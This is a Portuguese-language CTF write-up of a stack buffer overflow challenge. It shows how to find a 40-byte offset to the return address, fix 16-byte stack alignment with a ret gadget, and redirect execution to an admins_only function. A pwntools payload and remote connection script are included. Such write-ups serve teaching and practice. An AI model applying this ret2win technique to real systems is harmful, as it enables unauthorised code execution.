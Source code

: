 ![alt text](/images/crow-post-pwn/desafio3Imagem11.png)

![alt text](/images/crow-post-pwn/desafio3Imagem12.png)

![alt text](/images/crow-post-pwn/desafio3Imagem13.png)

Conseguimos. Ou seja, basta colocarmos o endereço entre os A's enviados para redirecionar o programa para admins_only. Vamos ver como o programa se comporta adiante. Para isso, usarei a técnica de breakpoints em todas as instruções e olhos atentos. 

![alt text](/images/crow-post-pwn/desafio3Imagem14.png)

Talvez estejamos sobreescrevendo algo importante. 

![alt text](/images/crow-post-pwn/desafio3Imagem15.png)

Vemos que para chegar no endereço de retorno temos que preencher 40 A's. Façamos somente isso com a modificação do endereço e vamos ver o que acontece.

![alt text](/images/crow-post-pwn/desafio3Imagem16.png)

O programa continua normalmente até que tenhamos outra segmentation fault na chamada de _system, nos redirecionando para uma instrução movaps dentro da função do_system.  

![alt text](/images/crow-post-pwn/desafio3Imagem17.png)

Procurando a definição da instrução na [internet](https://tizee.github.io/x86_ref_book_web/instruction/movaps.html#move-aligned-packed-single-precision-floating-point-values), vemos que precisamos garantir o alinhamento de 16 bytes dos operandos já que temos uma operação de memória.  
![alt text](/images/crow-post-pwn/desafio3Imagem18.png)

Olhando para o valor do rsp, percebemos que não é o caso.

![alt text](/images/crow-post-pwn/desafio3Imagem19.png)

Para contornar a situação, vamos manipular o tamanho da stack a fim de que tenhamos o alinhamento desejado. Uma técnica comum é a de usar um retorno intermediário. A ideia é saltar para uma instrução de retorno que saltará para a nossa função desejada. Nesse caso, vamos saltar de forma intermediária para o endereço 0x40158B. Depois que saltarmos, retn irá pegar o valor no topo da stack e saltar para esse endereço. Portanto, aí que colocaremos o nosso endereço da função admins_only. 
![alt text](/images/crow-post-pwn/desafio3Imagem20.png)


Nosso shellcode deve ter a seguinte cara: 

```python
payload = b'A' * 40 + pwn.p64(0x40158B) + pwn.p64(0x401554)
```


Nosso script ficará assim:


```python
import pwn
import time

pwn.context.log_level = 'debug'

payload = b'A' * 40 + pwn.p64(0x40158B) + pwn.p64(0x401554)

p = pwn.remote("ip", 9003)

p.recv()
time.sleep(1)
p.sendline(b'3')
time.sleep(1)
p.recv()
```